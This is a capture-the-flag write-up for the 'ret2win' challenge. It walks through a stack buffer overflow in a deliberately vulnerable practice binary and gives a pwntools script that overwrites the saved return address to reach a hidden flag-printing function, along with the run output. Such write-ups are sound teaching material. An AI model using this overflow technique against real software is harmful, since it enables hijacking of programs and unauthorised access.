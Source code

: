 # ret2win

A simple exploit involving overflowing a buffer and overwriting the saved `rip` value.

There are two main functions in this program, `main` and `pwnme`. Obviously we need to exploit the latter.

Looking at the decompiled code of `pwnme` in Cutter:

```c
void pwnme(void)
{
    void *buf; // sub rsp, 0x20
    
    memset(&buf, 0, 0x20); 
    puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
    puts("What could possibly go wrong?");
    puts("You there, may I have your input please? And don\'t worry about null bytes, we\'re using read()!\n");
    printf(0x400918);
    read(0, &buf, 0x38);
    puts("Thank you!");
    return;
}
```

This allocates 0x20 bytes of stack space, but reads in 0x38 bytes. Which means we can overflow this buffer and write into the saved instruction pointer further down on the stack. So, when the function `ret`s and pops `rip`, it won't jump back to `main`, but rather somewhere else. But where?

Turns out, there's a secret function that was never called. Looking at the symbol table, we find something rather interesting:

```text
sym.main
sym.pwnme
sym.register_tm_clones
sym.ret2win
```

That ret2win looks very suspicious. I wonder what it contains.

```c
void ret2win(void)
{
    puts("Well done! Here\'s your flag:");
    system("/bin/cat flag.txt");
    return;
}
```

...oh. Well, our life just got a whole lot easier.

Great. Now that we know where to jump to, let's figure out how to get there.

So, at the call to `read()`, the stack looks like this:

```text
Each line represents 8 bytes.
------------------------

[buf_3    ] <- rsp ¯¯| (read() starts writing here and goes down)
[buf_2    ]          |
[buf_1    ]          |-Total 32 bytes
[buf_0    ] <- rbp __|
[saved rbp]
[saved rip]

------------------------
```

What we want to do is to overflow `buf` and write into the saved `rip` memory region the address of `ret2win`, which we can easily find with any disassembler.

We can just write a simple exploit script with `pwntools` like so:

```python
# The "kitchen sink" approach.
from pwn import *

# set the instruction set arch we're working with.
# since we're just sending in bytes, it's not important,
# but it's good practice to do it.
context.arch = "amd64"

# spawn the process. in a normal CTF, we'd use remote().
conn = process("./ret2win")

# receive bytes until we're prompted for input
conn.recvuntil(b"> ")

# construct our exploit string.
# 40 bytes of random data (by convention 0x41 'A' just cause)
# and the address of ret2win, packed to 64 bytes little-endian.
# we can easily do this with a convenience function provided by pwntools.
exp = b"A" * 40 + p64(0x400756)

# send the string.
conn.send(exp)

# we're not popping a shell, just reading a flag, so receive the bytes
# outputted by the program and print them to the screen.
print(conn.recvall())
```

Cool. Now all we gotta do is run it.

```text
$ python exploit.py

[+] Starting local process './ret2win': pid 170197
[+] Receiving all data: Done (73B)
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 170197)
b"Thank you!\nWell done! Here's your flag:\nROPE{a_placeholder_32byte_flag!}\n"
```
